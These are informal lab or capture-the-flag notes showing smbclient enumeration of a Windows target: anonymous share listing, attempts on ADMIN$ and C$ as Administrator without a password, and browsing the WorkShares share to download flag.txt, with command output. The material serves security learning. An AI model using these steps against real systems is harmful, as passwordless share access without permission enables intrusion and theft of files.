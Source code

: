 ```
$ smbclient \\\\IP\ADMIN$ -U Administrator
```
instead of accessing the ADMIN$ share, we can access the C$ share, which is the file system of the Windowsmachine:

```
$ smbclient -N \\\\IP\C$ -U Administrator 
```


think about C$ as C:\\ in win10  




$ smbclient -N -L <IP>      ==> -N : no password 


PORT    STATE SERVICE
445/tcp open  microsoft-ds    


$ sudo apt install smbclient

```bash 
$ smbclient -L <IP>
Enter WORKGROUP\o54ma's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk

$ smbclient //<IP>/WorkShares     
Enter password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021


smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit
```
